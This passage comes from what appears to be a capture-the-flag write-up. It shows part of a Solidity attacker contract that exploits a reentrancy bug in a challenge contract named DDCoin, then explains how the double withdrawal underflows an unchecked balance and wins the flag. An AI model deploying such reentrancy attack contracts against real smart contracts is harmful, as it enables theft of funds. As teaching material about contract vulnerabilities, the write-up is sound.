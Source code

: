 ```sol
  }

  receive() external payable { 
    // This function is called when DDCoin runs msg.sender.call{value: ...}("")

    // We make sure to only reenter once
    if (!has_reentered) {
      has_reentered = true;

      // Here we execute the same function again.
      // This call will run and complete before the diamond_coins are subtracted in the original call
      victim.withdraw_diamond(password);
    }
  }

  function execute_attack() external {
    // This will trigger the attack, as the receive() function is called when the
    // DDCoin contract tries to send us eth.
    victim.withdraw_diamond(password);
  }
}
```

The reason that we write our own smart contract is that we can execute our own code when DDCoin tries to send the caller eth. This allows us to execute the `withdraw_diamonds()` function again before the original call completes. This means that we can actually get DDCoin to subtract diamond_coins twice. Since it is inside an `unchecked { ... }` block, this will trigger an integer underflow, and give us a very large amount of diamond_coins.

We can now deploy the contract with the address of the DDCoin contract as the constructor parameter, and execute the `execute_attack()` function.

We now have `115792089237316195423570985008687907853269984665640564039457584007913129639935` diamond coins which is more than the required $10^{18}$ that is needed to run the `exchange_diamond_to_ddcoin()` function.

When we run the `exchange_diamond_to_ddcoin()` function, the `diamond_coins` is set to 0, and `ddcoin` is set to 1!

# Flag

We can now get the flag by going to the website and clicking on the `Jeg ejer en DDCoin!` button!
